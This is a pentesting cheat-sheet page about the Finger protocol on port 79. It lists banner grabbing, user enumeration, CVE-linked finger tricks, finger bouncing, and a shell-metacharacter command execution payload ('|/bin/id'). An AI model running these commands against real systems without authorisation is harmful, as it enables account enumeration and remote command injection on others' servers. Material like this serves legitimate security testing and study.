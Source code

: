 ```yaml
---
title: "Finger - 79"
description: "Name/Finger Enumeration for Pentesting"
weight: 79
---
```

# Finger

{{<hint info>}}
Finger user information protocol.

**Default Port**: 79
{{</hint>}}

The Finger User Information Protocol ([RFC 1288](https://tools.ietf.org/html/rfc1288)),
is a simple protocol that provides
an interface to a remote user information program (RUIP).
[^rfc-1288]

## Banner Grabbing

#### Telnet

```sh
telnet {{< param "war.rhost" >}} 79
```

#### Netcat
```sh
echo "root" | nc -n {{< param "war.rhost" >}} 79
```

## Enumeration

#### Finger [^finger]

List logged users.

```sh
finger @{{< param "war.rhost" >}}
```
Finger a specific user.
```sh
finger -l root@{{< param "war.rhost" >}}
```
Enumerate users containing `user`.
```sh
finger -l user@{{< param "war.rhost" >}}
```

{{<hint info>}}
Try other words as: `admin`, `account` or `project`.
{{</hint>}}

{{<details "Parameters">}}
- `-l`: Multi-line format. Displays all the information.
{{</details>}}

## Finger Zero [^cve-1999-0197]

`fingerd` may respond to `finger 0@<host>`
with information on some user accounts.

```sh
finger 0@{{< param "war.rhost" >}}
```

## Finger 'a b c d e f g h' [^cve-2001-1503]

`fingerd` may respond to `'a b c d e f g h'@<host>`
with information on all accounts.

```sh
finger 'a b c d e f g h'@{{< param "war.rhost" >}}
```

## Finger Bouncing [^finger-bouncing]

`finger` can be used to relay a request
to a different host
as if it were sent from that machine.

```sh
finger @{{< param "war.rhost" >}}@10.10.10.4
```

```sh
finger root@{{< param "war.rhost" >}}@10.10.10.4
```

## Command Execution [^cve-1999-0152]

`fingerd` allows remote command execution
through shell metacharacters.

```sh
finger "|/bin/id@{{< param "war.rhost" >}}"
```

## Finger Exploits Search

Refer to [Exploits Search]({{< ref "exploits-search">}})

[^rfc-1288]: “RFC 1288 - The Finger User Information Protocol.” IETF Tools, https://tools.ietf.org/html/rfc1288.
[^finger]: “Finger(1): User Info Lookup Program.” Linux Documentation, https://linux.die.net/man/1/finger.
[^cve-1999-0197]: “CVE - CVE-1999-0197.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=1999-0197.
[^cve-2001-1503]: “CVE - CVE-2001-1503.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1503.
[^finger-bouncing]: “‘Solaris 2.7 Allows Finger Bouncing’ .” SecuriTeam, 15 Jan. 1999, https://securiteam.com/exploits/2BUQ2RFQ0I/.
[^cve-1999-0152]: “CVE - CVE-1999-0152.” CVE -  Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0152.

